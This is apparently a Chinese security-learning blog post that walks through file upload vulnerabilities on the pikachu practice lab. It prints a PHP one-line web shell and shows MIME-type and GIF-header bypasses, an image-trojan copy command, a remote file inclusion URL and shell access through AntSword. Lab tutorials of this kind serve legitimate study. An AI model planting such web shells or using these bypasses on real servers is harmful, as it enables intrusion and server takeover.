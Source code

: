 ```yaml
---
title: 信息安全学习-文件上传
tags:
  - 信息安全
readmore: true
date: 2023-02-20 11:30:26
---
```


### 简介

文件上传本身是指一个功能，比如用户可以上传头像、上传资料等。如果能够上传文件，则可能存在文件上传的漏洞。

任意文件上传漏洞的产生需要满足三个条件：

1. 文件能被上传；
2. 文件能被服务器解析 (上传的文件能够被当作后端脚本处理)；
3. 能访问的到上传的文件，如果访问不到，则无法对文件进行控制，也就没有漏洞的说法。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### client check

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> client check；

#### 测试漏洞

首先我们上传一张普通的图片，可以看到提示 “文件上传成功”，并显示了文件保存的路径，这里将返回的路径与 pikachu 靶场的路径进行拼接，可以成功的访问到图片。

```bash
http://192.168.31.195/pikachu/vul/unsafeupload/uploads/avatar.jpg
```

#### 绕过漏洞

创建一个 "shell.php" 的文件，作为我们一会将要上传的一句话木马文件。

```php
<?=eval($_POST['cmd']);?>
```

此时在靶场中直接选中该文件，会弹出提示框说文件不符合要求；通过 burp suite 也能发现网站没有发送请求，所以得出结论是在前端(客户端)进行的验证。

F12 或者在网站空白处右键检查；发现表单处调用了 JavaScript 函数，这里直接给它删除掉再次上传即可上传成功。

![](https://pic.mewhz.com/fileUpload/1.png)

#### 利用漏洞

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/rce/1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/fileUpload/2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/fileUpload/3.png)

![](https://pic.mewhz.com/fileUpload/4.png)

---

### MIME type

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> MIME type；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马文件，发现要求了上传的文件格式，此时打开 burp suite 抓取请求，

将抓到的请求右键 ”Send to Repeater“，发送到请求模块，修改请求头中的内容类型；

![](https://pic.mewhz.com/fileUpload/5.png)

把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**

通过此方法欺骗服务端，让服务端认为用户上传的是一张图片。

**MIME type** ：(现在称为“媒体类型 (media type)”，但有时也是“内容类型 (content type)”)是指示文件类型的字符串，与文件一起发送(例如，一个声音文件可能被标记为 `audio/ogg` ，一个图像文件可能是 `image/png` )。它与传统 Windows 上的文件扩展名有相同目的。

#### 利用漏洞

上传成功后，使用上述蚁剑的连接的方法访问后台。

---

### getimagesize

访问搭建好的 pikachu 靶场中的 Unsafe Fileupload -> getimagesize；

#### 测试漏洞

同样上传一张图片，发现没有任何问题并且返回了上传的路径。

#### 绕过漏洞

上传一句话木马，发现同样要求了文件后缀名格式；

##### 修改请求头

1. 同样使用 burp suite 抓包，这次除了修改请求头中的内容类型，还要修改文件的后缀名以及文件的内容；

2. 修改内容类型：把 **Content-Type: application/octet-stream** 修改成 **Content-Type: image/jpg**；

3. 修改文件后缀名，同样可以直接在上传之前进行修改：

   ![](https://pic.mewhz.com/fileUpload/6.png)

4. 在文件内容的首部加上 "GIF89a"，代表该文件是 GIF89a 格式的文件：

   ![](https://pic.mewhz.com/fileUpload/7.png)

5. 上传后成功显示文件的上传路径；

##### 制作图片木马

1. 选择一张可以正常显示的图片，并在该位置打开命令行；

2. 输入如下命令

   ```bash
   copy avatar.jpg/b+shell.php/a 1.jpg
   # copy 将一个或多个文件复制到其他位置
   # 第一个参数指定要复制的文件
   # /b 表示二进制文件
   # + 代表合并文件
   # /a 表示 ASCII 文件
   # 第二个参数指定新文件的文件名和路径
   ```

3. 重新上传文件，并选择新生成的文件，此时返回的连接仅仅是一个图片链接，需要配合着文件包含漏洞共同使用；

4. 打开 pikachu 靶场中的 File Inclusion -> File Inclusion(remote)，选择一张图片并观察URL，文件包含使用 filename 作为参数名，此时 php 页面会将相应到的数据作为 php 脚本执行，修改后面的参数名，构成新的 URL 为：

   ```bash
   http://192.168.31.195/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.31.195/pikachu/vul/unsafeupload/uploads/2023/02/20/19834863f3222ca9c95014848861.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
   ```

#### 利用漏洞

最后依然是使用蚁剑进行连接，只不过 URL 是文件包含中构成的新 URL。



仅供学习交流使用~
